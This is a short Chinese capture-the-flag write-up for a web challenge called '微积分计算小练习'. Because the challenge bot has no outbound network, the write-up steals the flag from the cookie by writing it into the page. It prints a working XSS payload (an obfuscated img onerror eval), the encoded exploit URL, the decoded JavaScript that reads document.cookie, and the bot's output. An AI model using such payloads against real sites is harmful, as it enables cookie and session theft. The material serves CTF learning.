 ## 微积分计算小练习

XSS 注入，但是注意容器环境疑似没有外网访问权限，所以不能跨站。

但是给了终端，所以直接替换掉终端原本会显示出来的内容，盗取放在 Cookie 里的 Flag 即可。

示例链接：

http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==

```html
<img src="#" id="ZG9jdW1lbnQucXVlcnlTZWxlY3RvcigiI2dyZWV0aW5nIikuaW5uZXJIVE1MID0gYnRvYShkb2N1bWVudC5jb29raWUp" onerror="eval(atob(this.id))" />
```

base64 decode 之后的 XSS 内容：

```javascript
document.querySelector("#greeting").innerHTML = btoa(document.cookie)
```

终端输出：

```
Please input your token: XXXX:XXXXXX
Please submit your quiz URL:
> http://202.38.93.111:10056/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==
Your URL converted to http://web/share?result=MDo8aW1nIHNyYz0iIyIgaWQ9IlpHOWpkVzFsYm5RdWNYVmxjbmxUWld4bFkzUnZjaWdpSTJkeVpXVjBhVzVuSWlrdWFXNXVaWEpJVkUxTUlEMGdZblJ2WVNoa2IyTjFiV1Z1ZEM1amIyOXJhV1VwIiBvbmVycm9yPSJldmFsKGF0b2IodGhpcy5pZCkpIiAvPg==
 I am using Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/106.0.5249.119 Safari/537.36
- Logining...
 Putting secret flag...
- Now browsing your quiz result...
OK. Now I know that:
<一串解密后为 Flag 的 Base64>==
您在练习中获得的分数为 0/100。
- Thank you for joining my quiz!

Connection closed
```
